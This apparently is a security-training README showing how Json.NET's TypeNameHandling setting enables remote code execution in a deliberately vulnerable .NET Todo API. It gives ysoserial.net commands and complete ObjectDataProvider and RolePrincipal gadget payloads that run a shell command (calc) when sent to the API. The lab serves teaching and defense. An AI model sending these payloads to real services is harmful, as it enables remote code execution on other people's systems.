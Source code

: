 # JSON Serialization Vulnerability

The [Friday the 13th](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) exploit uses the `TypeNameHandling` property to manipulate native .NET Framework class to launch a malicious process on the host environment.

The exercises in this section use the [src\02-Framework-JsonVulnerabilties\02-Framework-JsonVulnerabilties.sln](https://github.com/johniwasz/rce-serialization-dotnet/tree/main/src/02-Framework-JsonVulnerabilties). Please load the solution file in Visual Studio.

The `Register` method in [WebConfig.cs](https://github.com/johniwasz/rce-serialization-dotnet/blob/main/src/02-Framework-JsonVulnerabilties/TodoApi/App_Start/WebApiConfig.cs) in 02-Framework-JsonVulnerabilities/Todo/App_Start sets global serialization options.

``` csharp
public static void Register(HttpConfiguration config)
{
    // This introduces a security risk.
    config.Formatters.JsonFormatter.SerializerSettings.TypeNameHandling =
            Newtonsoft.Json.TypeNameHandling.All;

    config.Formatters.JsonFormatter.SerializerSettings.ContractResolver =
        new Newtonsoft.Json.Serialization.CamelCasePropertyNamesContractResolver();
```

Setting `TypeNameHandling` to anything other than `TypeNameHandling.None` exposes the vulnerability through at $type property that defines the type to deserialize. Running the `SerializeFido` test in the JsonVulnerabilities.Test project demonstrates this by serializing:

``` csharp
Dog fido = new Dog
{
    Name = "Fido",
    Breed = "Golden Retriever",
    Owner = "John Doe"
};
```

Which produces:

``` json
{
  "$type": "Todo.Models.Dog, Todo.Models",
  "name": "Fido",
  "breed": "Golden Retriever",
  "owner": "John Doe"
}
```

The `Todo.Models.Dog` class only recognizes string values and cannot be exploited; however, other .NET Framework classes like [`System.Windows.Data.ObjectDataProvider`](https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=netframework-4.8.1&WT.mc_id=MVP_337682) and [`System.Web.Security.RolePrincipal`](https://learn.microsoft.com/en-us/dotnet/api/system.web.security.roleprincipal?view=netf&WT.mc_id=MVP_337682ramework-4.8.1) expose a remote code execution vulnerability.

Ysoserial.net includes c

Use ysoserial.exe to create a vulnerable payload using:

``` powershell
ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc"
```

| Parameter | Description |
| --- | --- |
| -f Json.Net | The serializer and format |
| -g ObjectDataProvider | The gadget chain (exploitable class) |
| -o raw |  The output format (raw\|base64\|raw-urlencode\|base64-urlencode\|hex). Default: raw |
| -c "calc" | The command to be executed |

This produces:

``` json
{
  "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
  "MethodName": "Start",
  "MethodParameters": {
    "$type": "System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "$values": [ "cmd", "/ccalc" ]
  },
  "ObjectInstance": { "$type": "System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" }
}
```

The `ObjectDataProvider` uses `System.Diagnostics.Process` to pass the command to the `Start` method.

Use the JsonVulnerabilities.Test project `LaunchObjectDataProviderExploit` test case to observe the exploit in isolation. Note that this does not raise an exception and that calc.exe runs.

Alternatively, generate a message to run calc.exe using the `RolePrincipal` with:

``` powershell
ysoserial.exe -f Json.Net -g RolePrincipal -o raw -c "calc"
```

This generates:

``` json
{
  "$type": "System.Web.Security.RolePrincipal, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a",
  "System.Security.ClaimsPrincipal.Identities": "AAEAAAD////...lkZXI+Cw=="
}
```

The message is serialization serialized to JSON and value of `System.Security.ClaimsPrincipal.Identities` is base64 encoded. The `RolePrincipal` uses the `BinaryFormatter` to deserialize after the JSON message is deserialized. Running the `LaunchRolePrincipalExploit` test case runs this exploit in isolation. Note that an exception is generated but calc.exe is still launched.

## Reproducing the Exploit : Launch Calc

1. Run the solution in Debug mode.

1. Open the requests.http file in the Solution Items directory.

1. Send the requests in order with the following labels:

    | Label | Result |
    | --- | --- |
    | list all items | Returns an empty array. |
    | create a new task | _walk dog_ task is added. Observe `isComplete` is `false` |
    | update an existing task | sets `isComplete` property on _walk dog_ task to `true` |
    | send benign binary data | creates a take named _walk fido_ and metadata that includes details about Fido |
    | list all items | Returns _walk dog_ and _walk fido_ tasks |

    These requests do not result in any errors or exploits. The last request returns:

    ``` json
    {
    "$type": "System.Collections.Generic.SynchronizedCollection`1[[Todo.Models.TodoItem, Todo.Models]], System.ServiceModel",
    "$values": 
        [
            {
                "$type": "Todo.Models.TodoItem, Todo.Models",
                "id": 0,
                "name": "walk dog",
                "isComplete": true,
                "metadata": null
            },
            {
                "$type": "Todo.Models.TodoItem, Todo.Models",
                "id": 1,
                "name": "walk fido",
                "isComplete": false,
                "metadata": 
                {
                    "$type": "System.Collections.Generic.Dictionary`2[[System.String, mscorlib],[System.Object, mscorlib]], mscorlib",
                    "fido": 
                    {
                        "$type": "Todo.Models.Dog, Todo.Models",
                        "name": "Fido",
                        "breed": "Golden Retriever",
                        "owner": "John Doe"
                    }
                }
            }
        ]
    }
    ```

1. Send the request labeled `send malicious ObjectDataProvider gadget`. Observe that this launches the Calculator app on Windows.

    ``` json
    {
    "name": "pwn with ObjectDataProvider",
    "metadata" : 
        {
            "fido": 
            {
                "$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
                "MethodName":"Start",
                "MethodParameters":{
                    "$type":"System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
                    "$values":["cmd","/ccalc"]
                },
                "ObjectInstance":{"$type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"}
            }
        }
    }
    ```

1. Send the request labeled `send malicious RolePrincipal gadget`. Observe that this launches the Calculator app on Windows.

    ``` json
    {
    "name": "pwn with RolePrincipal",
    "metadata" : 
    {
        "fido": 
        {
        "$type": "System.Web.Security.RolePrincipal, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a",
        "System.Security.ClaimsPrincipal.Identities": "AAEAAAD...lkZXI+Cw=="
        }
    }
    }
    ```
